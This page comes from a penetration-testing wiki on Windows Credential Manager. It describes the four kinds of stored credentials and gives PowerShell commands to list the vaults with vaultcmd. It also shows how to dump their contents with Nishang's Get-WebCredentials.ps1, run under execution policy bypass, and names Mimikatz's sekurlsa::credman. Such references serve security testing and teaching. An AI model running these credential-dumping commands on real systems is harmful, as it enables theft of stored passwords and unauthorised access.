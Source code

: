 ```yaml
---
authors: ShutdownRepo
category: ad
---
```


# 🛠️ Windows Credential Manager



## Theory

Windows Credential Manager is a built-in feature that securely stores sensitive login information for websites, applications, and networks. It houses login credentials such as usernames, passwords, and web addresses. There are four distinct categories of stored credentials:

1. **Web-based credentials**: authentication details saved in web browsers (or other applications)
2. **Windows-specific credentials**: authentication data such as NTLM or Kerberos
3. **Generic credentials**: fundamental authentication data, such as clear-text usernames and passwords
4. **Certificate-based credentials**: comprehensive information based on certificates

## Practice 

From Windows systems, `vaultcmd.exe` can be used to enumerate, check and list Microsoft Credentials. However, this tool does not allow to see clear text passwords as it is an official, native, Windows program.

```powershell
#enumerate current Windows safes available
vaultcmd /list

#Check for credentials stored in the vault
VaultCmd /listproperties:"$coffre_name"

#more information about the Vault 
VaultCmd /listcreds:"$coffre_name"
```

The vault can be dumped in with [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1) (PowerShell) .

```powershell
powershell -ex bypass

Import-Module C:\Get-WebCredentials.ps1

Get-WebCredentials
```

Alternatively, [Mimkatz](https://github.com/gentilkiwi/mimikatz) (C) can be used for that purpose, with [`sekurlsa::credman`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/credman).